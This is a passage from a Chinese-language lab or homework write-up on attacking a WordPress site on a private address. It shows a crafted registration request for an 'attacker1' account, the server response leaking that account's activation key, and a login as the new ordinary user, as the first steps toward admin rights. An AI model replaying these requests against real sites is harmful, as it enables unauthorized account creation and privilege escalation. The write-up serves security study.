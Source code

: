         {"user_login": "attcker1", "user_email": "attacker1@163.com", "user_name": "attacker1", "password": "attacker1"}
        ```
    - **得到回显:**
        ```
        HTTP/1.1 200 OK
        Date: Thu, 22 May 2025 03:49:29 GMT
        Server: Apache/2.4.18 (Ubuntu)
        X-Robots-Tag: noindex
        Link: <http://192.168.20.12:10459/wp-json/>; rel="https://api.w.org/"
        X-Content-Type-Options: nosniff
        Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
        Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
        Content-Length: 280
        Content-Type: application/json; charset=UTF-8
        [{"id":3,"user_login":"attcker1","registered":"2025-05-22T03:48:36","user_name":"attacker1","activation_key":"aoM0svmO72kVVPbNxYadAKifjIUuYqj8","user_email":"attacker1@163.com","date_sent":"2025-05-22T03:48:36","count_sent":1,"meta":{"field_1":"attacker1","profile_field_ids":1}}]
        ```

4. **登录验证**
   - 使用注册的账号 `attacker1` 和密码 `attacker1` 登录。
   
   ![1747885902130](image/homework/1747885902130.png)
   - 登录后，用户将获得普通用户权限，但尚未获得管理员权限。